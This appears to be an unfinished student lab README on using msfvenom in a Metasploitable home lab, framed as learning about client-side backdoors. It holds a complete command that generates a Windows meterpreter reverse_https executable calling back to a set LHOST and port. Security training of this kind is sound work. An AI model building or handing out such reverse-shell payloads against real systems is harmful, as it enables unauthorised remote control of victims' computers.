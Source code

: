 # Client Side Protection  

## Objective

Finding backdoors and payloads in the client side for protection

### Skills Learned

- Installing Metasploitable on a Mac (silicon)

  

### Tools Used

- Metasploitable
- Zenmap
- metasploit
- Msfvenom
  

### Steps for Client side vulnerabilities (Msfvenom)

- We can check all the payloads that msfvenom has
```bash
msfvenom --list payloads
```
- We can see the list of the payloads, the first part is the name, the second part is the description. (Platform/type/communication) thats the naming of the payloads. The communication is broken into direction and protocol.
- We can now check a payload and check its options
  
```bash
msfvenom --payload windows/meterpreter/reverse_https --list-options
```

- We can change te basic options, LHOST is our computer and LPORT is the port we want to listen on. We can change the values and choose a file format and name for the payload we want to create.
  
```bash
msfvenom --payload windows/meterpreter/reverse_https LHOST=192.168.233.134 LPORT=8080 --format exe --out reverse_https_8080.exe
```

- 
- 
